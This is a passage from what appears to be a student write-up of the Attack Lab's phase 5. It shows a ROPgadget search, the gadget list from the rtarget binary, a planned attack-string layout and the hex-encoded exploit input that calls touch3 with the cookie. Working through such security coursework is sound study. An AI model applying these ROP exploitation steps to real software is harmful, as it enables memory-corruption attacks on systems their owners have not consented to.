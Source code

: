 Then search `mov rdi, rax` gadget instruction: `ROPgadget --binary rtarget  --only 'mov|nop|ret' | grep -E "rax|rdi"`

```assembly
0x0000000000401b23 : mov byte ptr [rax + 0x605500], 0 ; ret
0x000000000040214e : mov dword ptr [rdi + 8], eax ; ret
0x00000000004019e1 : mov dword ptr [rdi], 0x9090d199 ; ret
0x00000000004019c3 : mov dword ptr [rdi], 0x90c78948 ; ret
0x0000000000401aab : mov dword ptr [rdi], 0x90e08948 ; ret
0x0000000000401a5a : mov dword ptr [rdi], 0x91e08948 ; ret
0x00000000004019b5 : mov dword ptr [rdi], 0x9258c254 ; ret
0x00000000004019fc : mov dword ptr [rdi], 0xc084d181 ; ret
0x0000000000401a97 : mov dword ptr [rdi], 0xc2e08948 ; ret
0x0000000000401a6e : mov dword ptr [rdi], 0xc391d189 ; ret
0x00000000004019bc : mov dword ptr [rdi], 0xc78d4863 ; ret
0x00000000004019ae : mov dword ptr [rdi], 0xc7c78948 ; ret
0x0000000000401a0a : mov dword ptr [rdi], 0xc908c288 ; ret
0x0000000000401a7c : mov dword ptr [rdi], 0xc908ce09 ; ret
0x0000000000401a75 : mov dword ptr [rdi], 0xd238c281 ; ret
0x0000000000401a2c : mov dword ptr [rdi], 0xdb08ce81 ; ret
0x000000000040214d : mov qword ptr [rdi + 8], rax ; ret
0x0000000000401aad : mov rax, rsp ; nop ; ret
0x0000000000401a06 : mov rax, rsp ; ret
0x0000000000401a99 : mov rax, rsp ; ret 0x8dc3
0x00000000004019c5 : mov rdi, rax ; nop ; ret
0x00000000004019a2 : mov rdi, rax ; ret
0x0000000000402e89 : nop dword ptr [rax] ; ret
```

Available  instruction addresses are `0x4019c5` and `0x4019a2`。

So attack string design layout may look like this:

- gadget1
- gadget2
- gadget3
- address of `touch3`
- overflowed return address(point to gadget1)
- cookie string (`rsp + 0x37`)

Solution of phase 5 may look like below:

```c
00000000: 6161 6161 6161 6161 6161 6161 6161 6161 
00000010: 6161 6161 6161 6161 6161 6161 6161 6161 
00000020: 6161 6161 6161 6161 061a 4000 0000 0000 
00000030: d819 4000 0000 0000 a219 4000 0000 0000  
00000040: fa18 4000 0000 0000 6161 6161 6161 6161 
00000050: 6161 6161 6161 6161 6161 6161 6161 6161 
00000060: 6161 6161 6161 6135 3962 3939 3766 610a 
```



